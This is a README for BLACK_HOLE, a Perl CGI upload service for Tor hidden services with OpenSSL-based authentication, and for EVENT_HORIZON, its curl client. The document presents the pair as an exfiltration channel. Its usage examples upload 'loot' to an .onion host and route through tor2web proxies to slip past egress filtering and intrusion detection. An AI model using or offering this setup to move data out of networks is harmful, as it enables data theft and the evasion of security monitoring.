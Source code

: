 # BLACK_HOLE

Is a perl cgi file upload web app that is built to function easily with 
curl and the use of html forms is not required or needed. It is made 
to be used as a TOR hidden service.

The difference of this cgi upload app from others is that 
it uses OpenSSL public key encryption for authentication. The 
purchase of a cert from a CA is not needed or recommened as those 
orginizations personal regard for you is dubious.

Since these certs are not used for establishing SSL sessions only for
file encryption. It is best in my opinion to create the keypair you need 
and only give out copies of the public key to the indivduals you 
personaly trust.


## Installing
The install process will get lighttpd through apt and configure it then 
place the cgi in the correct location.

You will also be prompted to input the authentication passphrase.

Run as root

```
root@null:~/black-hole# ./install-bh.sh
```
The private key is required to be in the directory /var/cp-data/auth/
for this cgi to function.


### Explanation

A breakdown of the cgi will follow but it still does not beat reading
the Perl cgi itself. Plus eventhough it's Perl I avoided using obscure 
code and kept it simple so that a sysadmin that doesn't program should 
be able to break it down after some reading.

To understand how the authentication is performed, I first have to point
out the folders in use by this cgi.

NOTE: These will be generated by the installer, you will be 
prompted for the passphrase.

The required folders are placed in /var/. 

```
         /var/cp-data/
                 └── auth/
                       ├── pphrase
                       └── private.pem
```

The owner for cp-data/ and it's subdirectories is "www-data".

cp-data/ is the main folder which will contain the uploaded data. The 
sub folder auth/ MUST contain the private key along with a passphrase
or a hash of a passphrase which is interpreted by the cgi as a string
to see if it matches with an authentication parameter posted to it.

keep this in mind.

The cgi has three parameters that need to be filled and each need to be 
processed successfully otherwise the cgi will exit. They are proccesed 
in a sequential manner.

NOTE: for those that do not wish to craft your own url requestes 
and wish to use a more automated method, see EVENT_HORIZON below.


## FIRST parameter
The first parameter is the plain-text or hashed passphrase that is 
encrypted by the corrisponding OpenSSL public key as any SMIME type with
public key encryption.

### OpenSSL smime data, example:

```
MIME-Version: 1.0
Content-Disposition: attachment; filename="smime.p7m"
Content-Type: application/x-pkcs7-mime; smime-type=enveloped-data; name="smime.p7m"
Content-Transfer-Encoding: base64

MIIBxgYJKoZIhvcNAQcDoIIBtzCCAbMCAQAxggFuMIIBagIBADBSMEUxCzAJBgNV
BAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEwHwYDVQQKDBhJbnRlcm5ldCBX
aWRnaXRzIFB0eSBMdGQCCQDtan1KLnkXHjANBgkqhkiG9w0BAQEFAASCAQAH6f3L
VkTcrGI+oEwIm17wVW1XQTyjd4kxnFTGbc29dPsnW+bymAkzc0Xq9y2hv/+Mdd/i
QHW8m9Sry9jYXLO5mKp2LAEy4q3x6hM5XomV8elgm7ZNriVdWAYztVQ01I+3RnOo
5vqSy3iCfJ4/ecs5/RyE+JLG7269389NTMDigQOY/XqtFOB8dbeQolTanJev6Nxt
cvwapfxFGIs85QIFlQp9c2VP6KCFMk7h4Hyv03pJgWSR2hg7CDjzOfdMsi1WQ92P
TEYIi9n26XXiCUTMLCY8RqJsWlFvhyhW8PXXQy2kC7fn/I+ukcf+qtieEzGVCIOS
gWHEt5k6uWpt43pNMDwGCSqGSIb3DQEHATAdBglghkgBZQMEASoEEPxDoqLGhINJ
ZhF1cyVM0XyAEBLJ3nT17dVtx/E+k3lEw/8=
```

For this parameter to be completed successfully the cgi would have to 
decrypt the SMIME data with the private key and extract the 
passphrase/hash and match this to the passphrase/hash in the 
cp-data/auth/ folder. 


## SECOND parameter
The second parameter contains a one time use random key that is 
encrypted in the same manner as the first parameter(SMIME/AES). This 
one time use passphrase will be used to encrypt/decrypt symmenticly 
the data that is to be uploaded.

For this parameter to be completed successfully the cgi would have to
be able to decrypt this SMIME data with the privated key. The decrypted
passphrase is stored in the same directory as the data that is uploaded,
both share the same time stamp.


## THIRD parameter 
The third parameter will contain the encryped data to be uploaded.

This cgi was made to function in a environment without SSL/TLS session
encryption.



# EVENT_HORIZON

A client for one that wishes to upload to BLACK_HOLE. It performs 
the neccesary encryption on the files to be uploaded, then uses curl along 
with OpenSSL and the public key to generate a url post request that 
contains the three required parameters.

The trick is that on top of directly uploading to the cgi over the normal 
Internet. It also has the option to use proxies that serve as hidden service 
gateways such as tor2web. The idea behind it is that the LAN this client may 
be connecting from may have egress filtering rules (IDS/IDPS) that may interfere 
with tor traffic. So this manages to still use tor by first connecting to one 
of these proxies using regular HTTPS that then forward it to your hidden service 
over tor. 

The temporary password for symmetric encryption is generated with 
/dev/urandom and piped into a variable.

```
 TPASS=$(< /dev/urandom tr -dc _A-Z-a-z-0-9 | head -c 30 | base64)
```

Options avaliable by event-horizon client.
```

options:
   -k   location of the public key in pem format for use in encryption
   -t   use tor2web to use exfil hosted on hidden service (yes/no)
   -a   trusted passphrase on the server hosting the cgi perl file
   -d   location of the data file you wish to upload
   -u   full url to the perl cgi upload app, if hidden service place .onion url

usage examples:

without tor:
./event-horizon.sh -k public.pem -a pphrase -t no -d loot -u some_domain.com

using tor tor2web proxies:
./event-horizon.sh -k public.pem -a pphrase -t yes -d loot -u xaede7oiftahtz.onion

```


xor-function @
nightowlconsulting.com
